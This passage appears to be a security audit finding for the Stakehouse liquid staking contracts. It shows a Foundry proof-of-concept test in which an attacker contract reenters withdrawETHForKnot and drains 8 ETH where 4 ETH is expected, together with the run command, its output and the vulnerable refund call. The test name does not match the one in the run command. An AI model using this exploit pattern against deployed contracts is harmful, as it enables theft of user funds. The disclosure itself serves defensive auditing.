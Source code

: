 There is a restriction in this reentrancy attack, the msg.sender needs to be the same recipient when calling `withdrawETHForKnot`.

We add the test case.

[https://github.com/code-423n4/2022-11-stakehouse/blob/4b6828e9c807f2f7c569e6d721ca1289f7cf7112/test/foundry/LiquidStakingManager.t.sol#L35](https://github.com/code-423n4/2022-11-stakehouse/blob/4b6828e9c807f2f7c569e6d721ca1289f7cf7112/test/foundry/LiquidStakingManager.t.sol#L35)

    function testBypassIsContractCheck_POC() public {
    
    	NonEOARepresentative pass = new NonEOARepresentative{value: 8 ether}(address(manager));
    	address wallet = manager.smartWalletOfNodeRunner(address(pass));
    	address reprenstative = manager.smartWalletRepresentative(wallet);
    	console.log("smart contract registered as a EOA representative");
    	console.log(address(reprenstative) == address(pass));
    
    	// to set the public key state to IDataStructures.LifecycleStatus.INITIALS_REGISTERED
    	MockAccountManager(factory.accountMan()).setLifecycleStatus("publicKeys1", 1);
    
    	// expected to withdraw 4 ETHER, but reentrancy allows withdrawing 8 ETHER
    	pass.withdraw("publicKeys1");
    	console.log("balance after the withdraw, expected 4 ETH, but has 8 ETH");
    	console.log(address(pass).balance);
    
    }

We run the test:

    forge test -vv --match testWithdraw_Reentrancy_POC

And the result is

    Running 1 test for test/foundry/LiquidStakingManager.t.sol:LiquidStakingManagerTests
    [PASS] testWithdraw_Reentrancy_POC() (gas: 578021)
    Logs:
      smart contract registered as a EOA representative
      true
      balance after the withdraw, expected 4 ETH, but has 8 ETH
      8000000000000000000
    
    Test result: ok. 1 passed; 0 failed; finished in 14.85ms

The function call is

`pass.withdraw("publicKeys1")`, which calls

    function withdraw(bytes calldata _blsPublicKeyOfKnot) external {
    	IManager(manager).withdrawETHForKnot(address(this), _blsPublicKeyOfKnot);
    }

Which trigger:

    // refund 4 ether from smart wallet to node runner's EOA
    IOwnableSmartWallet(associatedSmartWallet).rawExecute(
    	_recipient,
    	"",
    	4 ether
    );

